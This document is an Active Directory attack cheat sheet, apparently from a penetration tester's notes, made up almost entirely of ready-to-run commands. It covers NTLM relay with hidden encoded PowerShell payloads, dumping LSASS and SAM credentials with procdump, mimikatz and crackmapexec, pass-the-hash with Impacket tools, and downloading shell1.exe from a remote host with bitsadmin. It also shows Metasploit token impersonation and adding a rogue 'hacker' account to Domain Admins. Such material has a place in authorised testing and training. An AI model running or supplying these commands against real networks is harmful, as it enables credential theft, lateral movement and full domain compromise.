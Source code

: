 # Active Directory

## NTLM Relay Attack

```text
cme --timeout 5 --verbose smb 172.0.0.1/24 --gen-relay-list targets.txt
```

```text
python RunFinger.py -g -i 172.0.0.1/24
```

```text
python Responder.py -I <interface> -r -d -w
```

```text
echo "powershell_command_string" | iconv --to-code UTF-16LE | base64 -w 0
```

```text
ntlmrelayx.py -tf targets.txt -c 'powershell.exe -NoP -sta -NonI -W Hidden -Enc {base64_code}'
```

```text
ntlmrelayx.py -tf targets.txt -c <Empire Powershell launcher>
```

## Check Password Policy on Network Domain

* [https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/](https://www.wikigain.com/configuring-password-policies-with-windows-server-2016/)

```text
gpedit.msc
```

Now go to `Computer Configuration/Windows Settings/Security Settings/Password Policy`

## Dump LSASS

* [https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)

```text
C:\\temp\\procdump.exe -accepteula  -ma lsass.exe lsass.dmp
#For 32 bits


C:\\temp\\procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp  
#For 64 bits
```

Download the file lsass.dmp generated.Launch mimikatz against the lsass.dmp file with the commands:

```text
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP

mimikatz # sekurlsa::logonPasswords full



# use with -r to clone and then dump LSASS
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

## Dumping SAM

### Dump Sam File

```text
crackmapexec smb 10.0.0.75 -d ADMIN -u JSMITH -p 'P@ssWord!' --sam
```

### Check for Local Account Credential Reuse with SAM file hash

```text
crackmapexec smb /root/Desktop/networks.txt -d WORKGROUP -u Administrator -H <LM:NTLM HASH>
```

## Network Share Auditing

* [https://github.com/Dionach/ShareAudit/blob/master/README.md](https://github.com/Dionach/ShareAudit/blob/master/README.md)

## Impacket Tools

### WMIEXEC

```text
./wmiexec.py -hashes <NTLM Hash> Administrator@10.0.4.21
```

### Secrets Dump

```text
impacket-secretsdump -hashes <LTM:NTLM Hash> -just-dc insecuredomain.local/Administrator\$@10.0.64.22
```

### SMBEXEC

```text
/usr/local/bin/smbexec.py -hashes <LM:NTLM Hash> Administrator@10.0.65.81
```

## PowerShell Execution Policy Disable:

```text
powershell.exe -exec bypass -nop
```

## Bitsadmin

```text
bitsadmin /transfer myDownloadJob /download /priority normal http://10.0.65.37:8000/shell1.exe c:\shell1.exe
```

## Python Web Server

```text
python –m SimpleHTTPServer
```

## Escalation to Domain Admin

### After compromising a Windows machine:

### List the domain administrators from a command prompt:

```text
net group "Domain Admins" /domain
```

### Dump the hashes \(Metasploit\)

```text
msf > run post/windows/gather/smart_hashdump GETSYSTEM=FALSE
```

### Find the admins \(Metasploit\)

```text
spool /tmp/enumdomainusers.txt
msf > use auxiliary/scanner/smb/smb_enumusers_domain
msf > set smbuser Administrator
msf > set smbpass <LM:NTLM Hash>
msf > set rhosts 10.0.0.0/24
msf > set threads 8
msf > run
msf> spool off
```

### Compromise Admin's box

```text
meterpreter > load incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token MYDOMAIN\\\\adaministrator
meterpreter > getuid
meterpreter > shell
```

```text
C:\\> whoami
mydom\\adaministrator
C:\\> net user hacker /add /domain
C:\\> net group "Domain Admins" hacker /add /domain
```

## References:

* [https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf](https://medium.com/@markmotig/some-ways-to-dump-lsass-exe-c4a75fdc49bf)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons\#interactive-logon-2-via-runas-and-domain-account](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons#interactive-logon-2-via-runas-and-domain-account)
* [https://www.bleepingcomputer.com/news/microsoft/microsoft-defender-can-ironically-be-used-to-download-malware/](https://www.bleepingcomputer.com/news/microsoft/microsoft-defender-can-ironically-be-used-to-download-malware/)
* [https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)
* [https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/](https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/)
* [https://wiki.wizard32.net/xwiki/bin/view/Penetration Testing\_Red Teaming/NTLM Relay Attack/](https://wiki.wizard32.net/xwiki/bin/view/Penetration%20Testing_Red%20Teaming/NTLM%20Relay%20Attack/)
* h[ttps://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/](https://www.varonis.com/blog/pen-testing-active-directory-environments-part-introduction-crackmapexec-powerview/)




